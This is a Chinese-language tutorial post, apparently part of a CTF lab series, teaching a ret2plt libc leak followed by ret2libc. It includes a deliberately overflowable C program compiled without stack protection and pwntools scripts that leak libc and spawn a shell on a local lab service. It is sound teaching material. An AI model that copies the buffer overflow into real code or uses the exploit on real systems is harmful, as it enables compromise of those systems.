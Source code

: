 ```yaml
---
title: "Day16－PLT to Libc"
date: 2024-09-16
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

昨天我們示範了如何在沒有拿到 libc base 且程式是動態鏈結的情況下，透過 PLT 拿到 shell。不過那是因為程式一開始就有呼叫一次 `system` 函式，使得在編譯過程中產生了 GOT 和 PLT。如果沒有呼叫過該函式，是不是就無法被攻擊了呢？其實不是，因為我們可以透過 PLT 和 GOT 嘗試取得程式中的 libc base，並進行 ret2libc 攻擊。

## plt & got leak libc

如之前所提，GOT 會存儲外部函式的地址。即便我們不知道具體的 libc base，也可以將某些函式的 GOT 地址作為參數，傳遞給可以輸出資訊的函式，如 `puts`，來洩露 libc 地址並計算出 libc base。具體上傳遞參數的過程會像這樣：`puts(got_address)`。

這裡需要注意，若程式的 RELRO 是 Partial，我們需要函式的地址被解析完成後才能使用。有些讀者可能會問：既然我們不知道 libc base，那要如何呼叫 `puts` 呢？實際上，我們可以直接呼叫 PLT，因為 PLT 會自動從 GOT 中取出地址，也就是 libc 內部的函式地址。如此一來，我們就能成功呼叫 `puts` 並取得 libc base，進而進行簡單的 ret2libc 攻擊。

## Lab

查看以下原始碼：

```c=
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void pop_rdi(){
    __asm__("pop %rdi; ret;");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    puts("Welcome to challenge!");
    puts("Leave a message: ");
    read(0, message, 0x100);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/ret2plt_adv.c -o ./ret2plt_adv/share/ret2plt_adv -fno-stack-protector -no-pie
```

## writeup

這次的程式與前幾天的不同，分析後我們發現有一個 `read` 的 overflow，可以用來控制程式的執行流。不過因為是動態鏈結，gadgets 可能不足以構造完整的 ROP chain，所以我們需要從 libc 中尋找 gadgets。然而，要使用 libc，必須先泄露 libc base，但程式中沒有像格式化字串或 out-of-bounds (OOB) 等可直接泄露 libc 的漏洞。幸運的是，我們可以控制程式的執行流，並且程式內有 `puts` 函式，因此我們可以將某個函式的 GOT 地址作為參數傳入 `puts`，取得該函式的 libc 地址，進而計算出 libc base。

有了 libc base 後，我們可以再一次輸入並觸發 overflow，完成 ret2libc 攻擊。值得一提的是，我特地加了一個 `pop rdi; ret`，以便傳遞參數。

所以我們要確認以下資訊

- `puts` 的 PLT 地址
- 已被解析的某個函式的 GOT 地址
- `main` 的地址（泄露 libc 後返回重新輸入）

這些資訊可以用 `objdump` 輕鬆找出。

![image](/images/iron2024/day16_image1.png)

我們來測試一下是否能成功泄露 libc 地址，並接上 gdb 計算 offset。

在測試之前，因為要針對 libc，所以需要更換 libc，具體操作可參照[Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126)

需要控制流的 padding 為 `0x10+0x8=0x18`。

![image](/images/iron2024/day16_image2.png)

接下來，使用以下 script 進行測試：

```py=
from pwn import *

r = process('./ret2plt_adv')
context.terminal = ['tmux','splitw','-h']
gdb.attach(r)
setvbuf_got = 0x404010
puts_plt = 0x0000000000401030
pop_rdi = 0x000000000040114a
main = 0x00000000040114f
payload = b'A' * (0x10 + 8) + p64(pop_rdi) + p64(setvbuf_got) + p64(puts_plt) + p64(main)
r.sendlineafter('Leave a message: ', payload)
libc = u64(r.recvuntil(b'\x7f').strip().ljust(8, b'\x00'))
print(hex(libc))
r.interactive()
```

我們可以成功泄露一些資訊，並確認 offset 為 `0x815f0`。

![image](/images/iron2024/day16_image3.png)

![image](/images/iron2024/day16_image4.png)

接下來，將泄露到的地址減去 `0x815f0` 來測試，發現確實成功泄露到 libc base。

![image](/images/iron2024/day16_image5.png)

由於程式最後接回了 `main`，因此有再次輸入的機會，此時就可以進行 ret2libc，具體步驟可參考 [Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126) 的步驟

完整 exploit：

```py=
from pwn import *

# r = process('../ret2plt_adv/share/ret2plt_adv')
r = remote('127.0.0.1',10008)
setvbuf_got = 0x404010
puts_plt = 0x0000000000401030
pop_rdi = 0x000000000040114a
main = 0x00000000040114f
payload = b'A' * (0x10 + 8) + p64(pop_rdi) + p64(setvbuf_got) + p64(puts_plt) + p64(main)
r.sendlineafter('Leave a message: ', payload)
libc = u64(r.recvuntil(b'\x7f').strip().ljust(8, b'\x00')) - 0x815f0
log.info('Libc: ' + hex(libc))
system = libc + 0x50d70
bin_sh = libc + 0x1d8678
ret = pop_rdi + 1
payload = b'A' * (0x10 + 8) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day16_image6.png)
